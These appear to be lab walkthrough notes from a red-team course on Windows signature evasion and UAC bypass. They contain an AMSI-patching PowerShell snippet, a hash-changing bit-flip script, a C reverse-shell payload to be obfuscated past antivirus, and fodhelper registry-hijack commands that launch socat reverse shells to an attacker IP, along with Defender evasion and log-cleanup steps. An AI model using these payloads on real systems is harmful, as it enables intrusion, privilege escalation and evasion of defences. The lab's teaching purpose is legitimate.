An example of this can be found in Mimikatz where an alert is generated for the string `wdigest.dll`. This can be solved by replacing the string with any random identifier changed throughout all instances of the string. This can be categorized in the obfuscation taxonomy under the method proxy technique.

This is almost no different than as discussed in Obfuscation Principles; however, it is applied to a specific situation.

Using the knowledge you have accrued throughout this task, obfuscate the following PowerShell snippet, using AmsiTrigger to visual signatures.

```c#
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
Once sufficiently obfuscated, submit the snippet to the webserver at `http://MACHINE_IP/challenge-1.html`. The file name must be saved as `challenge-1.ps1`. If correctly obfuscated a flag will appear in an alert pop-up

---

### Static Property-Based Signatures

Various detection engines or analysts may consider different indicators rather than strings or static signatures to contribute to their hypothesis. Signatures can be attached to several file properties, including file hash, [entropy](../common.md#entropy), author, name, or other identifiable information to be used individually or in conjunction. These properties are often used in rule sets such as **YARA** or **Sigma**.

Some properties may be easily manipulated, while others can be more difficult, specifically when dealing with pre-compiled closed-source applications.

This task will discuss manipulating the **file hash** and **entropy** of both open-source and closed-source applications.

Note: several other properties such as PE headers or module properties can be used as indicators. Because these properties often require an agent or other measures to detect, we will not cover them in this room to keep the focus on signatures.

<span style="font-size: 23px;">**File Hashes**</span>

A **file hash**, also known as a **checksum**, is used to tag/identify a unique file. They are commonly used to verify a file’s authenticity or its known purpose (malicious or not). File hashes are generally arbitrary to modify and are changed due to any modification to the file.

If we have access to the source for an application, we can modify any arbitrary section of the code and re-compile it to create a new hash. That solution is straightforward, but what if we need a pre-compiled or signed application?

When dealing with a signed or closed-source application, we must employ **bit-flipping**.

Bit-flipping is a common cryptographic attack that will mutate a given application by flipping and testing each possible bit until it finds a viable bit. By flipping one viable bit, it will change the signature and hash of the application while maintaining all functionality.

We can use a script to create a **bit-flipped list** by flipping each bit and creating a new **mutated variant** (~3000 - 200000 variants). Below is an example of a python bit-flipping implementation.

```c#
import sys

orig = list(open(sys.argv[1], "rb").read())

i = 0
while i < len(orig):
	current = list(orig)
	current[i] = chr(ord(current[i]) ^ 0xde)
	path = "%d.exe" % i
	
	output = "".join(str(e) for e in current)
	open(path, "wb").write(output)
	i += 1
	
print("done")
```
Once the list is created, we must search for intact unique properties of the file. For example, if we are bit-flipping `msbuild`, we need to use `signtool` to search for a file with a useable certificate. This will guarantee that the functionality of the file is not broken, and the application will maintain its signed attribution.

We can leverage a script to loop through the bit-flipped list and verify functional variants. Below is an example of a batch script implementation.

```bash
FOR /L %%A IN (1,1,10000) DO (
	signtool verify /v /a flipped\\%%A.exe
)
```
This technique can be very lucrative, although it can take a long time and will only have a limited period until the hash is discovered. Below is a comparison of the original MSBuild application and the bit-flipped variation.


<span style="font-size: 23px;">**Entropy**</span>

From [IBM](https://www.ibm.com/docs/en/qsip/7.4?topic=content-analyzing-files-embedded-malicious-activity), Entropy is defined as “the randomness of the data in a file used to determine whether a file contains hidden data or suspicious scripts.” EDRs and other scanners often leverage entropy to identify potential suspicious files or contribute to an overall malicious score.

Entropy can be problematic for obfuscated scripts, specifically when obscuring identifiable information such as variables or functions.

To lower entropy, we can replace random identifiers with randomly selected English words. For example, we may change a variable from `q234uf` to `nature`.

To prove the efficacy of changing identifiers, we can observe how the entropy changes using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Entropy('Shannon%20scale')).

Below is the Shannon entropy scale for a standard English paragraph.

**Shannon entropy: 4.587362034903882**


Below is the Shannon entropy scale for a small script with random identifiers.

**Shannon entropy: 5.341436973971389**


Depending on the EDR employed, a “suspicious” entropy value is **~ greater than 6.8**.

The difference between a random value and English text will become amplified with a larger file and more occurrences.

Note that entropy will generally never be used alone and only to support a hypothesis. For example, the entropy for the command `pskill` and the hivenightmare exploit are almost identical.

To see entropy in action, let’s look at how an EDR would use it to contribute to threat indicators.

In the white paper, [An Empirical Assessment of Endpoint Detection and Response Systems against Advanced Persistent Threats Attack Vectors](https://www.mdpi.com/2624-800X/1/3/21/pdf), **SentinelOne** *is shown to detect a DLL due to high entropy, specifically through AES encryption.*

---

### Behavioral Signatures

Obfuscating functions and properties can achieve a lot with minimal modification. Even after breaking static signatures attached to a file, modern engines may still observe the behavior and functionality of the binary. This presents numerous problems for attackers that cannot be solved with simple obfuscation.

As covered in Introduction to Anti-Virus, modern anti-virus engines will employ two common methods to detect behavior: observing imports and hooking known malicious calls. While imports, as will be covered in this task, can be easily obfuscated or modified with minimal requirements, hooking requires complex techniques out of scope for this room. Because of the prevalence of API calls specifically, observing these functions can be a significant factor in determining if a file is suspicious, along with other behavioral

Before diving too deep into rewriting or importing calls, let’s discuss how API calls are traditionally utilized and imported. We will cover C-based languages first and then briefly cover .NET-based languages later in this task.

API calls and other functions native to an operating system require a pointer to a function address and a structure to utilize them.

Structures for functions are simple; they are located in **import libraries** such as `kernel32` or `ntdll` that store function structures and other core information for Windows.

The most significant issue to function imports is the function addresses. Obtaining a pointer may seem straightforward, although because of **ASLR** (**Address Space Layout Randomization**), function addresses are dynamic and must be found.

Rather than altering code at runtime, the **Windows loader** `windows.h` is employed. At runtime, the loader will map all modules to process address space and list all functions from each. That handles the modules, but how are function addresses assigned?

One of the most critical functions of the Windows loader is the **IAT (Import Address Table)**. The IAT will store function addresses for all imported functions that can assign a pointer for the function.

The IAT is stored in the **PE** (**Portable Executable**) header `IMAGE_OPTIONAL_HEADER` and is filled by the Windows loader at runtime. The Windows loader obtains the function addresses or, more precisely, **thunks** from a pointer table, accessed from an API call or **thunk table**. Check out the [Windows Internals](./HostEvasions.md#windows-internals) for more information about the PE structure.

At a glance, an API is assigned a pointer to a thunk as the function address from the Windows loader. To make this a little more tangible, we can observe an example of the PE dump for a function.


The import table can provide a lot of insight into the functionality of a binary that can be detrimental to an adversary. But how can we prevent our functions from appearing in the IAT if it is required to assign a function address?

As briefly mentioned, the thunk table is not the only way to obtain a pointer for a function address. We can also utilize an API call to obtain the function address from the import library itself. This technique is known as **dynamic loading** and can be used to avoid the IAT and minimize the use of the Windows loader.

We will write our structures and create new arbitrary names for functions to employ dynamic loading.

At a high level, we can break up dynamic loading in C languages into four steps,

1. Define the structure of the call
2. Obtain the handle of the module the call address is present in
3. Obtain the process address of the call
4. Use the newly created call

To begin dynamically loading an API call, we must first define a structure for the call before the main function. The call structure will define any inputs or outputs that may be required for the call to function. We can find structures for a specific call on the Microsoft documentation. For example, the structure for `GetComputerNameA` can be found [here](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcomputernamea). Because we are implementing this as a new call in C, the syntax must change a little, but the structure stays the same, as seen below.

```c#
// 1. Define the structure of the call
typedef BOOL (WINAPI* myNotGetComputerNameA)(
	LPSTR   lpBuffer,
	LPDWORD nSize
);
```
To access the address of the API call, we must first load the library where it is defined. We will define this in the main function. This is commonly `kernel32.dll` or `ntdll.dll` for any Windows API calls. Below is an example of the syntax required to load a library into a module handle.

```bash
// 2. Obtain the handle of the module the call address is present in 
HMODULE hkernel32 = LoadLibraryA("kernel32.dll");
```
Using the previously loaded module, we can obtain the process address for the specified API call. This will come directly after the `LoadLibrary` call. We can store this call by casting it along with the previously defined structure. Below is an example of the syntax required to obtain the API call.

```bash
// 3. Obtain the process address of the call
myNotGetComputerNameA notGetComputerNameA = (myNotGetComputerNameA) GetProcAddress(hkernel32, "GetComputerNameA");
```
Although this method solves many concerns and problems, there are still several considerations that must be noted. Firstly, `GetProcAddress` and `LoadLibraryA` are still present in the IAT; although not a direct indicator it can lead to or reinforce suspicion; this problem can be solved using **PIC (Position Independent Code)**. Modern agents will also hook specific functions and monitor kernel interactions; this can be solved using **API unhooking**.

Using the knowledge you have accrued throughout this task, obfuscate the following C snippet, ensuring no suspicious API calls are present in the IAT.

```c#
#include <windows.h>
#include <stdio.h>
#include <lm.h>

int main() {
    printf("GetComputerNameA: 0x%p\\n", GetComputerNameA);
    CHAR hostName[260];
    DWORD hostNameLength = 260;
    if (GetComputerNameA(hostName, &hostNameLength)) {
        printf("hostname: %s\\n", hostName);
    }
}
```
Once sufficiently obfuscated, submit the snippet to the webserver at `http://MACHINE_IP/challenge-2.html`. The file name must be saved as `challenge-2.exe`. If correctly obfuscated a flag will appear in an alert pop-up.

---

### Putting It All Together

As reiterated through both this room and Obfuscation Principles, no one method will be 100% effective or reliable.

To create a more effective and reliable methodology, we can combine several of the methods covered in this room and the previous.

When determining what order you want to begin obfuscation, consider the impact of each method. For example, is it easier to obfuscate an already broken class or is it easier to break a class that is obfuscated?

Note: In general, You should run automated obfuscation or less specific obfuscation methods after specific signature breaking, however, you will not need those techniques for this challenge.

Taking these notes into consideration, modify the provided binary to meet the specifications below.

1. No suspicious library calls present
2. No leaked function or variable names
3. File hash is different than the original hash
4. Binary bypasses common anti-virus engines

Note: When considering library calls and leaked function, be conscious of the IAT table and strings of your binary.

```c#
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```
Once sufficiently obfuscated, compile the payload on the AttackBox or VM of your choice using GCC or other C compiler. The file name must be saved as `challenge.exe`. Once compiled, submit the executable to the webserver at `http://MACHINE_IP/`. If your payload satisfies the requirements listed, it will be ran and a beacon will be sent to the provided server IP and port.

Note: It is also essential to change the `C2Server` and `C2Port` variables in the provided payload or this challenge will not properly work and you will not receive a shell back. 

Note: When compiling with GCC you will need to add compiler options for `winsock2` and `ws2tcpip`. These libraries can be included using the compiler flags `-lwsock32` and `-lws2_32`

If you are still stuck we have provided a walkthrough of the solution below.

## Bypassing UAC

In this section, we will be looking at common ways to bypass a security feature available to Windows systems known as **User Account Control ([UAC](../common.md#uac))**. This feature allows for any process to be run with low privileges independent of who runs it (either a regular user or an admin).

From an attacker's perspective, bypassing UAC is essential to breaking out of highly restrictive environments and fully elevating privileges on target hosts.

### User Account Control (UAC)

<span style="font-size: 23px;">**What is UAC?**</span>

User Account Control (UAC) is a Windows security feature that forces any new process to run in the security context of a non-privileged account by default. This policy applies to processes started by any user, including administrators themselves. The idea is that we can't solely rely on the user's identity to determine if some actions should be authorized.

Although this may seem counterintuitive, imagine the case where user BOB unknowingly downloads a malicious application from the Internet. If BOB is a part of the Administrators group, any application he launches will inherit its access token privileges. So if BOB decides to launch the malicious application and UAC is disabled, the malicious application would gain administrator privileges instantly. Instead, the malicious application will be restricted to a non-administrative access token when UAC is enabled.

<span style="font-size: 23px;">**UAC Elevation**</span>

If an administrator is required to perform a privileged task, UAC provides a way to elevate privileges. Elevation works by presenting a simple dialogue box to the user to confirm that they explicitly approve running the application in an administrative security context:



<span style="font-size: 23px;">**Integrity Levels**</span>

UAC is a **Mandatory Integrity Control (MIC)**, which is a mechanism that allows differentiating users, processes and resources by assigning an **Integrity Level (IL)** to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs, so you may be authorized to access a resource according to the DACL, but it won't matter if your IL isn't high enough.

The following 4 ILs are used by Windows, ordered from lowest to highest:

| Integrity Level | Use                                                                                                                                                                                            |
|-----------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Low             | Generally used for interaction with the Internet (i.e. Internet Explorer). Has very limited permissions.                                                                                      |
| Medium          | Assigned to standard users and Administrators' filtered tokens.                                                                                                                                |
| High            | Used by Administrators' elevated tokens if UAC is enabled. If UAC is disabled, all administrators will always use a high IL token.                                                             |
| System          | Reserved for system use.                                                                                                                                                                       |

When a process requires to access a resource, it will inherit the calling user's access token and its associated IL. The same occurs if a process forks a child.

<span style="font-size: 23px;">**Filtered Tokens**</span>

To accomplish this separation of roles, UAC treats regular users and administrators in a slightly different way during logon:

- **Non-administrators** will receive a single access token when logged in, which will be used for all tasks performed by the user. This token has Medium IL.
- **Administrators** will receive two access tokens:
    - **Filtered Token**: A token with Administrator privileges stripped, used for regular operations. This token has Medium IL.
    - **Elevated Token**: A token with full Administrator privileges, used when something needs to be run with administrative privileges. This token has High IL.

In this way, administrators will use their filtered token unless they explicitly request administrative privileges via UAC.

<span style="font-size: 23px;">**Opening an Application the Usual Way**</span>

When trying to open a regular console, we can either open it as a non-privileged user or as an administrator. Depending on our choice, either a Medium or High integrity level token will be assigned to the spawned process:


If we analyze both processes using Process Hacker, we can see the associated tokens and their differences:


On the left, you have a filtered token with medium IL and almost no privileges assigned. On the right, you can see that the process runs with high IL and has many more privileges available. Another difference that may not be so obvious is that the medium IL process is effectively denied any privileges related to being part of the Administrators group.

<span style="font-size: 23px;">**UAC Settings**</span>

Depending on our security requirements, UAC can be configured to run at four different notification levels:

- **Always notify:** Notify and prompt the user for authorization when making changes to Windows settings or when a program tries to install applications or make changes to the computer.
- **Notify me only when programs try to make changes to my computer:** Notify and prompt the user for authorization when a program tries to install applications or make changes to the computer. Administrators won't be prompted when changing Windows settings.
- **Notify me only when programs try to make changes to my computer (do not dim my desktop):** Same as above, but won't run the UAC prompt on a secure desktop.
- **Never notify:** Disable UAC prompt. Administrators will run everything using a high privilege token.

By default, UAC is configured on the **Notify me only when programs try to make changes to my computer** level:


From an attacker's perspective, the three lower security levels are equivalent, and only the Always notify setting presents a difference.

<span style="font-size: 23px;">**UAC Internals**</span>

At the heart of UAC, we have the **Application Information Service** or **Appinfo**. Whenever a user requires elevation, the following occurs:

1. The user requests to run an application as administrator.
2. A **ShellExecute** API call is made using the **runas** verb.
3. The request gets forwarded to Appinfo to handle elevation.
4. The application manifest is checked to see if AutoElevation is allowed (more on this later).
5. Appinfo executes **consent.exe**, which shows the UAC prompt on a **secure desktop**. A secure desktop is simply a separate desktop that isolates processes from whatever is running in the actual user's desktop to avoid other processes from tampering with the UAC prompt in any way.
6. If the user gives consent to run the application as administrator, the Appinfo service will execute the request using a user's Elevated Token. Appinfo will then set the parent process ID of the new process to point to the shell from which elevation was requested.


<span style="font-size: 23px;">**Bypassing UAC**</span>

From an attacker's perspective, there might be situations where you get a remote shell to a Windows host via Powershell or cmd.exe. You might even gain access through an account that is part of the Administrators group, but when you try creating a backdoor user for future access, you get the following error:

```bash
PS C:\Users\attacker> net user backdoor Backd00r /add
```
By checking our assigned groups, we can confirm that our session is running with a medium IL, meaning we are effectively using a filtered token: 

```bash
PS C:\Users\attacker> whoami /groups
```
Even when we get a Powershell session with an administrative user, UAC prevents us from performing any administrative tasks as we are currently using a filtered token only. If we want to take full control of our target, we must bypass UAC.

Interestingly enough, Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense, the UAC prompt is more of a reminder to the user that they are running with high privileges rather than impeding a piece of malware or an attacker from doing so. Since it isn't a security boundary, any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

Generally speaking, most of the bypass techniques rely on us being able to leverage a High IL process to execute something on our behalf. Since any process created by a High IL parent process will inherit the same integrity level, this will be enough to get an elevated token without requiring us to go through the UAC prompt.

For all the scenarios presented in this room, we assume we have access to the server with an administrative account but from a Medium IL console only. Our goal will always be to access a High IL console without going through UAC.

---

### UAC: GUI based bypasses

We will start by looking at GUI-based bypasses, as they provide an easy way to understand the basic concepts involved. These examples are not usually applicable to real-world scenarios, as they rely on us having access to a graphical session, from where we could use the standard UAC to elevate.

<span style="font-size: 23px;">**Case study: msconfig**</span>

Our goal is to obtain access to a High IL command prompt without passing through UAC. First, let's start by opening msconfig, either from the start menu or the "Run" dialog:

If we analyze the msconfig process with Process Hacker (available on your desktop), we notice something interesting. Even when no UAC prompt was presented to us, msconfig runs as a high IL process:

This is possible thanks to a feature called auto elevation that allows specific binaries to elevate without requiring the user's interaction. More details on this later.

If we could force msconfig to spawn a shell for us, the shell would inherit the same access token used by msconfig and therefore be run as a high IL process. By navigating to the Tools tab, we can find an option to do just that:



If we click Launch, we will obtain a high IL command prompt without interacting with UAC in any way.

To retrieve the msconfig flag, use the obtained high integrity console to execute:

```bash
C:\> C:\flags\GetFlag-msconfig.exe
```
Case study: `azman.msc`

As with msconfig, azman.msc will auto elevate without requiring user interaction. If we can find a way to spawn a shell from within that process, we will bypass UAC. Note that, unlike msconfig, azman.msc has no intended built-in way to spawn a shell. We can easily overcome this with a bit of creativity.

First, let's run azman.msc:

We can confirm that a process with high IL was spawned by using Process Hacker. Notice that all .msc files are run from mmc.exe (Microsoft Management Console):

To run a shell, we will abuse the application's help:



On the help screen, we will right-click any part of the help article and select **View Source**:



This will spawn a notepad process that we can leverage to get a shell. To do so, go to **File->Open** and make sure to select **All Files** in the combo box on the lower right corner. Go to `C:\Windows\System32` and search for `cmd.exe` and right-click to select Open:



This will once again bypass UAC and give us access to a high integrity command prompt. You can check the process tree in Process Hacker to see how the high integrity token is passed from mmc (Microsoft Management Console, launched through the Azman), all the way to cmd.exe:

To retrieve the azman flag, use the obtained high integrity console to execute:

```bash
C:\> C:\flags\GetFlag-azman.exe
```

---

### UAC: Auto-Elevating Processes

<span style="font-size: 23px;">**AutoElevate**</span>

As mentioned before, some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows.

For an application, some requirements need to be met to auto-elevate:

- The executable must be signed by the Windows Publisher
- The executable must be contained in a trusted directory, like `%SystemRoot%/System32/` or `%ProgramFiles%/`
Depending on the type of application, additional requirements may apply:

- Executable files (.exe) must declare the **autoElevate** element inside their manifests. To check a file's manifest, we can use [sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck), a tool provided as part of the Sysinternals suite. You can find a copy of sigcheck on your machine on `C:\tools\` . If we check the manifest for msconfig.exe, we will find the autoElevate property:

```powershell
C:\tools\> sigcheck64.exe -m c:/windows/system32/msconfig.exe
...
<asmv3:application>
	<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		<dpiAware>true</dpiAware>
		<autoElevate>true</autoElevate>
	</asmv3:windowsSettings>
</asmv3:application>
```
- mmc.exe will auto elevate depending on the .msc snap-in that the user requests. Most of the .msc files included with Windows will auto elevate.
- Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. This list includes pkgmgr.exe and spinstall.exe, for example.
- COM objects can also request auto-elevation by configuring some registry keys (https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker).

<span style="font-size: 23px;">**Case study: Fodhelper**</span>

Fodhelper.exe is one of Windows default executables in charge of managing Windows optional features, including additional languages, applications not installed by default, or other operating system characteristics. Like most of the programs used for system configuration, fodhelper can auto elevate when using default UAC settings so that administrators won't be prompted for elevation when performing standard administrative tasks. While we've already taken a look at an autoElevate executable, unlike msconfig, fodhelper can be abused without having access to a GUI.

To connect to the backdoor, you can use the following command:

`nc MACHINE_IP 9999`

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

```bash
user@kali$ nc MACHINE_IP 9999
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

```bash
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```
Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.

We set up a listener by using netcat in our machine:

`nc -lvp 4444`

And then proceed to execute **fodhelper.exe**, which in turn will trigger the execution of our reverse shell:


The received shell runs with high integrity, indicating we have successfully bypassed UAC.

To retrieve the fodhelper flag, use your new shell to execute:

```bash
C:\> C:\flags\GetFlag-fodhelper.exe
```
**Note: Keep in mind that the flag will only be returned if you successfully bypassed UAC via fodhelper and only from the resulting high integrity shell.**

<span style="font-size: 23px;">**Clearing our tracks**</span>

As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```bash
reg delete HKCU\Software\Classes\ms-settings\ /f
```
---

### UAC: Improving the Fodhelper Exploit to Bypass Windows Defender

**Windows Defender**

For simplicity, the machine we are targeting has Windows Defender disabled. But what would happen if it was enabled?

First, using your GUI connection, go to your desktop and double-click the following icon to enable Windows Defender:

Now try exploiting fodhelper again through the backdoor connection and see what happens on the server's GUI. Just as you change the `(default)` value in `HKCU\Software\Classes\ms-settings\Shell\Open\command` to insert your reverse shell command, a Windows Defender notification will pop up:

By clicking the notification, we can check the details on the alert, which mention a UAC bypass attempt by modifying a registry value:


If you query the corresponding value on the registry, you will notice it has been erased:

```bash
C:\Windows\system32>reg query %REG_KEY% /v ""

HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    (Default)    REG_SZ    (value not set)
```
Although by now it would seem our exploit wouldn't work with Windows Defender enabled, check what happens if you run the same commands but with a slight modification (be sure to replace your IP address where needed):

```bash
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    DelegateExecute    REG_SZ    
    (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
```
We have added a quick query to the offending registry value right after setting it to the command required for our reverse shell. Surprisingly, the query outputs our command intact. We still get alerted by Windows Defender, and a second later, the offending registry value gets deleted as expected. It appears it takes a moment for Windows Defender to take action on our exploit, so let's set a reverse listener on our attacker's machine:

`nc -lvp 4444`

And modify the exploit to run fodhelper.exe immediately after setting the registry value. If the command runs quick enough, it will just work (be sure to replace your IP address where needed):

```bash
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```
Depending on your luck, fodhelper might execute before the AV kicks in, giving you back a reverse shell. If for some reason it doesn't work for you, keep in mind that this method is unreliable as it depends on a race between the AV and your payload executing first. Should the reverse shell not work, just go ahead and continue with the rest of the room, as a more consistent way to bypass Windows Defender will be given below.

```bash
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```
Windows Defender still alerts about the bypass, however. The problem with our current exploit is that it gives little room for variation, as we need to write specific registry keys for it to trigger, making it easy for Windows Defender to detect. But there is still something to be done about it.

---

### Improving the fodhelper exploit

A variation on the fodhelper exploit was proposed by [@V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses), where different registry keys are used, but the basic principle is the same.

Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have multiple instances of an application with different versions running on the same system. CurVer allows you to point to the default version of the application to be used by Windows when opening a given file type.

To this end, we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.

The exploit code proposed by @V3ded uses Powershell to achieve this end. Here is a modified version of it adapted to use our reverse shell (be sure to replace your IP address where needed):

```bash
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
This exploit creates a new progID with the name **.pwn** and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our .pwn progID. When fodhelper tries opening an ms-settings program, it will instead be pointed to the .pwn progID and use its associated command.

This technique is more likely to evade Windows Defender since we have more liberty on where to put our payload, as the name of the progID that holds our payload is entirely arbitrary. Let's start a new reverse shell on our attacker's machine:

`nc -lvp 4445`

And execute the exploit from our backdoor connection as is. As a result, Windows Defender will throw another alert that references our actions:


Although we are still detected, it is essential to note that sometimes the detection methods used by AV software are implemented strictly against the published exploit, without considering possible variations. If we translate our exploit from Powershell to use cmd.exe, the AV won't raise any alerts (be sure to replace your IP address where needed):

```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```
And we get a high integrity reverse shell:

```bash
user@kali$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```
To retrieve the fodhelper-curver flag, use your new shell to execute:

```bash
C:\> C:\flags\GetFlag-fodhelper-curver.exe
```
<span style="font-size: 23px;">**Clearing our tracks**</span>

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following commands:

```bash
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
---

### UAC: Environment Variable Expansion

<span style="font-size: 23px;">**Bypassing Always Notify**</span>

As seen in the previous task, on default Windows configurations, you can abuse applications related to the system's configuration to bypass UAC as most of these apps have the autoElevate flag set on their manifests. However, if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate. This would prevent several known bypass methods to be used, but not all hope is lost.

For the following technique, we'll be abusing a scheduled task that can be run by any user but will execute with the highest privileges available to the caller. Scheduled tasks are an exciting target. By design, they are meant to be run without any user interaction (independent of the UAC security level), so asking the user to elevate a process manually is not an option. Any scheduled tasks that require elevation will automatically get it without going through a UAC prompt.

<span style="font-size: 23px;">**Case study: Disk Cleanup Scheduled Task**</span>

